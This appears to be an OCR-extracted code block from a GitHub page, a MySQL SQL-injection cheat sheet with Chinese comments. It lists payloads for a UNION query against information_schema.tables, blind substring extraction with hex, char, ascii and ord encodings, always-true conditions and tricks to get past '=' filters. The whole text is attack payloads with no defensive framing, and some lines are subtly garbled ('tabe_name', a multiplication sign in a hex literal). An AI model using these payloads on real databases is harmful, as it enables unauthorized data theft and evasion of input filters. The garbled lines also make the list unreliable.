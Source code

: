 ``` sql
'union(select(1),tabe_name,(3)from`information_schema`.`tables`)#
#有引号的字符串
  
SELECT 'a'
  
SELECT "a"
  
SELECT n'a'
  
SELECT b'1100001'
  
SELECT _binary'1100001'
  
SELECT x'61'
#没有引号的字符串
  
 'abc' = 0×616263
  
  ' and substr(data,1,1) = 'a'#
  
  ' and substr(data,1,1) = 0x61 # 0x6162
  
  ' and substr(data,1,1) = unhex(61)    # unhex(6162)
  
  ' and substr(data,1,1) = char(97  )# char(97,98)
  
  ' and substr(data,1,1) = 'a'#
  
  ' and hex(substr(data,1,1)) = 61#
  
  ' and ascii(substr(data,1,1)) = 97#
  
  ' and ord(substr(data,1,1)) = 97# 
  
  ' and substr(data,1,1) = lower(conv(10,10,36))# 'a'
#别名
  
select pass as alias from users
  
select pass`alias alias`from users
#字型
  
' or true = '1 # or 1=1
  
' or round(pi(),1)+true+true = version() # or 3.1+1+1 = 5.1
  
' or '1 # or true
  
#操作符字型
  
select * from users where 'a'='b'='c'
  
select * from users where ('a'='b')='c'
  
select * from users where (false)='c'
#认真绕过'='
  
select * from users where name = "="
  
select * from users where false = "
  
select * from users where 0 = 0
  
```